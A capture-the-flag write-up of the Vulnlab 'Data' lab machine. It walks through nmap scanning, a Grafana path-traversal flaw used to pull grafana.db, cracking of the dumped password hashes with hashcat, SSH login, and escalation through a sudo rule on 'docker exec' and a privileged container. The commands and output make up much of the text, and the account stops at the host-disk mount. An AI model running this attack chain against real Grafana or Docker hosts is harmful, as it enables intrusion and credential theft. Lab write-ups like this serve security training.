 ```yaml
---
title: Data Vulnlab (English)
image: /assets/img/Anexos/Máquina%20Data.png
description: Down Vulnhab [Difuculty easy]
categories: [CTF,Vulnhab]
tags: [hacking,easy]
---
```




## Introduction
N/A
### Machine Description


- Name: Data
- Goal: Get two flags
- Difficulty: easy
- Operating System: Linux
- link: [Data](https://wiki.vulnlab.com/guidance/easy/data )

  

### PDF Link
- PDF: [Link to PDF](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/Vulnlab/M%C3%A1quina%20Data.pdf)






## Reconnaissance 


```shell
❯ sudo nmap -sSCV --min-rate 5000 -p- --open -n -Pn 10.10.101.106
[sudo] password for belin: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-06 20:45 CEST
Nmap scan report for 10.10.101.106
Host is up (0.21s latency).
Not shown: 63838 closed tcp ports (reset), 1695 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:52:bf:7b:a8:60:29:b7:e6:09:b0:e6:8e:e5:3e:4a (RSA)
|   256 37:a2:cb:57:c3:7a:c3:16:72:ed:e2:59:c4:25:d9:37 (ECDSA)
|_  256 dd:0a:c9:d3:fc:5b:dc:ca:b4:21:7e:91:2c:17:9d:28 (ED25519)
3000/tcp open  http    Grafana http
| http-robots.txt: 1 disallowed entry 
|_/
| http-title: Grafana
|_Requested resource was /login
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.48 seconds
```
We start the initial enumeration directly with `nmap` and nmap reported only de port 22 and 3000 open, the port 3000 has Grafana executing 

![](/assets/img/Anexos/Máquina%20Data-1.png)

In this case we can see the version which is always very risky so doing some search in Google I could easily find the CVE which is basically a Path traversal: 

## Exploitation 


![](/assets/img/Anexos/Máquina%20Data-2.png)

In order to exploit grafana and knowing that there's a ssh server running, we can get the hashes of grafana database (`grafana.db`) and the crack them. 

![](/assets/img/Anexos/Máquina%20Data-3.png)

In order to reach a better view we can dump the `grafana.db` directly to our hot machine and inspect it using `sqlite3`


```shell
sqlite> select * from user;
1|0|admin|admin@localhost||7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8|YObSoLj55S|hLLY6QQ4Y6||1|1|0||2022-01-23 12:48:04|2022-01-23 12:48:50|0|2022-01-23 12:48:50|0
2|0|boris|boris@data.vl|boris|dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8|LCBhdtJWjl|mYl941ma8w||1|0|0||2022-01-23 12:49:11|2022-01-23 12:49:11|0|2012-01-23 12:49:11|0
```

After getting the hashes and their salt, also important for the next step, we can use the next tool in order to pass the hash and their respective salt to an hashcat readable format. In this case I used this tool from github:  

> https://github.com/iamaldi/grafana2hashcat


```shell
❯ python3 grafana2hashcat.py hashes

[+] Grafana2Hashcat
[+] Reading Grafana hashes from:  hashes
[+] Done! Read 2 hashes in total.
[+] Converting hashes...
[+] Converting hashes complete.
[*] Outfile was not declared, printing output to stdout instead.

sha256:10000:cGVwcGVy:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=
sha256:10000:cGVwcGVy:epGeS76Vz1EE7fNU7i5iNO+sHKH4FCaESiTE32ExMizzcjySFkthcunnP696TCBy+Pg=


[+] Now, you can run Hashcat with the following command, for example:

hashcat -m 10900 hashcat_hashes.txt --wordlist wordlist.txt
```

Then we crack it, rockyou is enough
```shell
❯ hashcat -m 10900 hashes_hashcat /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

Successfully initialized the NVIDIA main driver CUDA runtime library.

Failed to initialize NVIDIA RTC library.

* Device #1: CUDA SDK Toolkit not installed or incorrectly installed.
             CUDA SDK Toolkit required for proper device support and utilization.
             Falling back to OpenCL runtime.

OpenCL API (OpenCL 3.0 CUDA 12.8.97) - Platform #1 [NVIDIA Corporation]
=======================================================================
* Device #1: NVIDIA GeForce RTX 2060, 4480/5737 MB (1434 MB allocatable), 30MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1029 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=:beautiful1
```

So now we can attempt to connect to ssh as boris, the only user we know: 
```shell
❯ ssh boris@10.10.92.169
boris@10.10.92.169's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.4.0-1060-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jul  7 08:55:01 UTC 2025

  System load:  0.0               Processes:              99
  Usage of /:   19.8% of 7.69GB   Users logged in:        0
  Memory usage: 24%               IP address for eth0:    10.10.92.169
  Swap usage:   0%                IP address for docker0: 172.17.0.1


0 updates can be applied immediately.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


Last login: Sun Jan 23 13:11:53 2022 from 10.10.1.254
boris@ip-10-10-10-11:~$ 
```

## Privilege Escalation

As boris we can execute /snap/bin/docker exec * as root:
```shell
boris@ip-10-10-10-11:/$ sudo -l
Matching Defaults entries for boris on ip-10-10-10-11:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User boris may run the following commands on ip-10-10-10-11:
    (root) NOPASSWD: /snap/bin/docker exec *
```

So supposing the container's name is grafana, we can use it as the name of the contaaner: 

```shell
boris@ip-10-10-10-11:/$ sudo -u root /snap/bin/docker exec grafana whoami
grafana
```
We're good, now the next step is getting root access in the container 

```
boris@ip-10-10-10-11:/$ sudo -u root /snap/bin/docker exec -u root -it grafana bash
bash-5.1# 
```

Once as root I run `Deepce` and it reported that we hace privilaged access in the container so we can just mount the whole target machine in the docker: 

```bash
mount /dev/xvda1 /mnt/host
```

